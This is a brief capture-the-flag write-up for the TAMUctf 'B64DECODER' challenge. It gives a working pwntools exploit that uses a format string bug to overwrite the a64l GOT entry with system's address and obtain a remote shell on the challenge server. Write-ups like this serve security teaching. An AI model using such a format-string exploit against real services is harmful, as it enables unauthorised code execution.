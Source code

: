## B64DECODER (244pts) ##

![TASK](https://imgur.com/ZVHG4PA.png)

This is wont be a detailed writeup , however in this task we have a clear format string vulnerability (line 23) and a leak of a64l function address 

![TASK](https://imgur.com/EIv7uYX.png)

The idea is to overwrite the GOT entry of a64l function with the address of system in libc (not system@plt) using the format string vulnerability , it's also a partial overwrite because we have a limited length of input (32 characters) and using the leaked address of a64l we can easily know the address of system function , here is my exploit :

```python
from pwn import *
import struct
import sys
def pad(str):
        return str+"X"*(32-len(str))
payload=""
#p=process("./b64decoder")
p=remote("challenges.tamuctf.com",2783)
d=p.recvuntil("name!")
A64Ladd=d[:-18][-10:]
TOWRITE="0x"+A64Ladd[-4:]
sys=int(TOWRITE,16)-1680-4  #A64l-0x690
log.info(TOWRITE)
log.info(sys)
A64L_PLT=0x804b398
a64lADD=p32(A64L_PLT)
payload+=a64lADD
payload+="%"+str(sys)+"x%71$hn"
log.info("payload crafted")
p.sendline(payload)
log.info("Sent , Haaaw el shell")
p.interactive()

```
And Bingo we got our shell :D

![TASK](https://imgur.com/jd78uIm.png)

Any questions you can contact me on twitter @BelkahlaAhmed1 , i'm sorry for the lack of details :( 
